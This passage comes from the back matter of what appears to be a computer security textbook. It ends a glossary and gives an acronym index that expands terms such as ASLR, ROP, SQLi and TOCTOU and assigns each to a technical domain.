- **Set User ID (SUID)**: A special UNIX permission bit (`04000`) instructing the operating system to execute a binary with the privileges of the file owner rather than the calling user.
- **Time-of-Check to Time-of-Use (TOCTOU)**: A race condition vulnerability occurring when the state of a resource changes between the moment it is verified and the moment it is accessed.
- **Virtual Address Descriptor (VAD)**: A binary search tree in the Windows kernel tracking the allocated virtual memory ranges and page protections for a process.

---

## 15.2 Comprehensive Acronym Master Index

| Acronym | Expansion | Technological Domain |
| :--- | :--- | :--- |
| **ABAC** | Attribute-Based Access Control | Access Control Architectures |
| **ACE** | Access Control Entry | Operating System Security |
| **ACL** | Access Control List | Discretionary Access Control |
| **AES** | Advanced Encryption Standard | Symmetric Cryptography |
| **API** | Application Programming Interface | Software Engineering |
| **ASLR** | Address Space Layout Randomization | Exploit Mitigations |
| **AVC** | Access Vector Cache | SELinux Architecture |
| **BHO** | Browser Helper Object | Windows Web Exploits |
| **BPF** | Berkeley Packet Filter | Linux Kernel Tracing / Seccomp |
| **C2** | Command and Control | Threat Infrastructure |
| **CA** | Certificate Authority | Public Key Infrastructure |
| **CBC** | Cipher Block Chaining | Block Cipher Modes |
| **CIA** | Confidentiality, Integrity, Availability | Information Assurance |
| **CSP** | Content Security Policy | Web Application Security |
| **DAC** | Discretionary Access Control | Operating System Security |
| **DACL** | Discretionary Access Control List | Windows Security |
| **DDoS** | Distributed Denial of Service | Network Security |
| **DEP** | Data Execution Prevention | Hardware Exploit Mitigations |
| **DGA** | Domain Generation Algorithm | Malware Threat Infrastructure |
| **DKOM** | Direct Kernel Object Manipulation | Kernel Rootkit Engineering |
| **DLL** | Dynamic Link Library | Windows Operating System |
| **DNS** | Domain Name System | Network Infrastructure |
| **DNSSEC**| Domain Name System Security Extensions | Network Security |
| **DoS** | Denial of Service | Network Security |
| **EBP** | Extended Base Pointer | x86 Processor Architecture |
| **ECC** | Elliptic Curve Cryptography | Asymmetric Cryptography |
| **EIP** | Extended Instruction Pointer | x86 Processor Architecture |
| **ESP** | Extended Stack Pointer | x86 Processor Architecture |
| **FQDN** | Fully Qualified Domain Name | Network Infrastructure |
| **GCM** | Galois/Counter Mode | Authenticated Encryption |
| **GID** | Group Identifier | Linux Access Control |
| **GUI** | Graphical User Interface | System Software |
| **HMAC** | Hash-based Message Authentication Code | Cryptographic Data Integrity |
| **HTTP** | Hypertext Transfer Protocol | Web Protocols |
| **HTTPS**| Hypertext Transfer Protocol Secure | Transport Layer Security |
| **IA** | Information Assurance | Enterprise Security Standards |
| **IAT** | Import Address Table | Windows PE Format |
| **ICMP** | Internet Control Message Protocol | Network Protocols |
| **IDS** | Intrusion Detection System | Network Defense |
| **IP** | Internet Protocol | Network Layer Protocol |
| **IPC** | Inter-Process Communication | Operating System Architecture |
| **KASLR** | Kernel Address Space Layout Randomization | Kernel Exploit Mitigations |
| **KPTI** | Kernel Page Table Isolation | Hardware Speculation Defenses |
| **LSASS** | Local Security Authority Subsystem Service | Windows Authentication |
| **LSM** | Linux Security Modules | Linux Kernel Architecture |
| **MAC** | Mandatory Access Control / Message Authentication Code | Access Control / Cryptography |
| **MFA** | Multi-Factor Authentication | Identity & Access Management |
| **MLS** | Multi-Level Security | Mandatory Access Control |
| **NAT** | Network Address Translation | Network Routing |
| **NGFW** | Next-Generation Firewall | Network Security Perimeters |
| **NTP** | Network Time Protocol | Network Protocols |
| **NX** | No-Execute Bit | CPU Architecture |
| **OSINT** | Open-Source Intelligence | Threat Reconnaissance |
| **PAM** | Pluggable Authentication Modules | Linux Authentication |
| **P2P** | Peer-to-Peer | Distributed Architectures |
| **PE** | Portable Executable | Windows Binary Format |
| **PEB** | Process Environment Block | Windows Process Internals |
| **PID** | Process Identifier | Operating System Management |
| **POSIX** | Portable Operating System Interface | System Standards |
| **PPC** | Pay-Per-Click | Digital Advertising / Fraud |
| **RAM** | Random Access Memory | Physical Memory Architecture |
| **RAT** | Remote Access Trojan | Malware Engineering |
| **RBAC** | Role-Based Access Control | Access Control Architectures |
| **RFC** | Request for Comments | Internet Standards |
| **RFID** | Radio-Frequency Identification | Wireless Hardware Security |
| **ROP** | Return-Oriented Programming | Advanced Binary Exploitation |
| **RSA** | Rivest-Shamir-Adleman | Asymmetric Cryptography |
| **SACL** | System Access Control List | Windows Security Auditing |
| **SELinux**| Security-Enhanced Linux | Mandatory Access Control |
| **SHA** | Secure Hash Algorithm | Cryptographic Hash Functions |
| **SID** | Security Identifier | Windows Security Model |
| **SMB** | Server Message Block | Network Protocols |
| **SOCKS** | Socket Secure Protocol | Proxy Networking |
| **SPDM** | Security Protocol and Data Model | Peripheral Security |
| **SQL** | Structured Query Language | Relational Database Systems |
| **SQLi** | SQL Injection | Web Application Exploits |
| **SRM** | Security Reference Monitor | Windows Kernel Subsystems |
| **SSDT** | System Service Descriptor Table | Windows Kernel Internals |
| **SSH** | Secure Shell | Secure Remote Administration |
| **SSP** | Stack Smashing Protection (Canaries) | Compiler Exploit Mitigations |
| **SUID** | Set User ID | UNIX / Linux File Permissions |
| **TCB** | Trusted Computing Base | Platform Security Architecture |
| **TCP** | Transmission Control Protocol | Transport Layer Protocol |
| **TLS** | Transport Layer Security | Cryptographic Transport Security |
| **TOCTOU** | Time-of-Check to Time-of-Use | Concurrency Vulnerabilities |
| **TOR** | The Onion Router | Anonymity Networks |
| **TTL** | Time-To-Live | Network Protocols / DNS |
| **UDP** | User Datagram Protocol | Transport Layer Protocol |
| **UID** | User Identifier | Linux Access Control |
| **UIPI** | User Interface Privilege Isolation | Windows GUI Security |
| **VAD** | Virtual Address Descriptor | Windows Memory Architecture |
| **VMM** | Virtual Machine Monitor (Hypervisor) | Virtualization Infrastructure |
| **XSS** | Cross-Site Scripting | Web Application Exploits |

---
